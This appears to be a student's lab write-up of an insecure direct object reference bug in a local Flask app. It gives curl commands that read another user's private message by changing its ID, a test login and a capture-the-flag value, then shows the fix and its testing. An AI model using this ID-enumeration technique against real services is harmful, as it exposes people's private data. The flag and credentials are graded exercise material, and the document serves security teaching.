


# PoC 2 — Insecure Direct Object Reference (IDOR)

**Flag:** `FLAG{idor_cb8acad1b559}`

## Vulnerability

`/messages/<msg_id>` fetches a message by its numeric ID with no check
that the logged-in user actually owns that message:

```python
row = get_db().execute(
    "SELECT id, owner, title, body FROM messages WHERE id = ?", (msg_id,)
).fetchone()
```

## Exploit

Logged in as the public test account `alice / password123` (a normal,
low-privilege user — deliberately *not* admin, to prove the bug is
exploitable without any elevated access):

```bash
curl -s -i -c cookies_alice.txt -X POST http://127.0.0.1:5000/login \
  -d "username=alice&password=password123"
```

`/messages` as alice only lists her own messages `#4` and `#5`:

```html
<li><a href="/messages/4">#4 — Grocery list</a></li>
<li><a href="/messages/5">#5 — Vacation</a></li>
```

Message `#1` belongs to `admin` and is never linked to alice. Requesting
it directly by guessing/incrementing the ID still returns it:

```bash
curl -s -i -b cookies_alice.txt http://127.0.0.1:5000/messages/1
```

**Response body:**

```html
<h1>#1 — Onboarding secret</h1>
<p class="meta">To: admin</p>
<p>Internal only. Do not share. FLAG{idor_cb8acad1b559}</p>
```

alice, who has no relationship to that message, reads admin's private
message purely by changing a number in the URL.

## Remediation

Add an ownership check before returning the row:

```python
row = get_db().execute(
    "SELECT id, owner, title, body FROM messages WHERE id = ? AND owner = ?",
    (msg_id, user["username"]),
).fetchone()
```

Return 404 (not 403, to avoid confirming the ID exists) when the row
belongs to someone else.

**Severity:** High — any authenticated user can read any other user's
private messages by enumerating sequential IDs.

## Remediation — applied and manually tested

As hands-on practice beyond the required exploitation work, I (Alex)
applied this fix to my own local copy of `app.py` and tested it myself.
Claude Code explained what needed to change (add an ownership check,
which line it lived on) and later helped diagnose an error I hit, but
did not make the edits itself — I wrote the code by hand from that
explanation, in my own editor, not by copy-pasting a ready-made snippet.

**Attempt 1 — I introduced a bug while editing.** I added the
`AND owner = ?` clause to the SQL string but only carried over the
original single-value binding tuple, `(msg_id,)`, instead of adding
`user["username"]` to it:



Restarting the server and requesting `/messages/1` as `alice` failed
with a server error rather than the intended fix behavior:

```
HTTP/1.1 500 INTERNAL SERVER ERROR
```

Checking the Flask error log (Claude Code read `restart.log` and
identified the cause) showed the actual exception:

```
sqlite3.ProgrammingError: Incorrect number of bindings supplied.
The current statement uses 2, and there are 1 supplied.
  File "app.py", line 265, in message_detail
    row = get_db().execute(
```

The query template had two `?` placeholders (`id = ?` and `owner = ?`)
but the tuple I wrote only supplied one value. Claude Code pointed out
which line and value was missing; I made the correction myself.

**Attempt 2 — corrected.** I added `user["username"]` into the
bindings tuple so it matches both placeholders:



```python
row = get_db().execute(
    "SELECT id, owner, title, body FROM messages WHERE id = ? AND owner = ?",
    (msg_id, user["username"])
).fetchone()
```

I restarted the server myself and re-ran the test by hand:

```bash
curl -s -c alice2.txt -X POST http://127.0.0.1:5000/login \
  -d "username=alice&password=password123" -o /dev/null
curl -s -i -b alice2.txt http://127.0.0.1:5000/messages/1
```

**Result — exploit now blocked:**

```
HTTP/1.1 404 NOT FOUND
<h1>Message not found</h1>
```

alice can no longer read admin's message #1 by number-guessing, which
previously returned `FLAG{idor_cb8acad1b559}`.

**Regression check — legitimate access still works:**

```bash
curl -s -b alice2.txt http://127.0.0.1:5000/messages/4
```

```
<h1>#4 — Grocery list</h1>
<p class="meta">To: alice</p>
<p>Milk, eggs, coffee.</p>
```

alice can still read her own message #4 normally, confirming the fix
closes the vulnerability without breaking the intended feature.

**Note on `app.py` in this repo:** after confirming the fix worked, I
reverted my local `app.py` back to the original, unmodified (vulnerable)
version, since the submitted app needs to still produce all 6 flags for
grading/reproduction. The corrected code is preserved here and in
[`poc/idor_fix_reference.py`](idor_fix_reference.py) as a record of the
exercise — it is not applied to the live app in this repo.
